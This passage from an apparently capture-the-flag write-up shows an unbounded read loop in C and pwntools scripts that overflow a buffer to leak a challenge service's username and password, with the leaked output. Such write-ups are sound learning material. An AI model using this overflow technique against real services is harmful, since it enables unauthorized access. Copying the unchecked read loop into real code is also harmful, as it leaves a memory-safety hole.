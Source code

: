 ```c
		puts("Invalid password");
		return 0;
	}

	return 1;
```

This logic seems fine, so let's look at the `input` function:
 
``` c
void input(char *buf){
    int recv;
    int i = 0;
    while(1){
        recv = (int)read(STDIN_FILENO,&buf[i],1);
        if(recv == -1){
            puts("ERROR!");
            exit(-1);
        }
        if(buf[i] == '\n'){
            return;
        }
        i++;
    }
}
```

Ha ha! There's our overflow. The function will only stop reading when we encounter a `'\n'`.  
I used this to leak the username and password.

``` python
s = remote(HOST, PORT)

s.sendline("2")
s.sendline("A" * 31)
s.sendline("")
s.interactive()

```
```
username : Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
3XPL01717
```
```python
s = remote(HOST, PORT)

s.sendline("2")
s.sendline("A" * 63)
s.sendline("")

s.interactive()
```
```
username : Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
_H4CK3R_
```
So, we have `username = "_H4CK3R_"` and `password = "3XPL01717"`
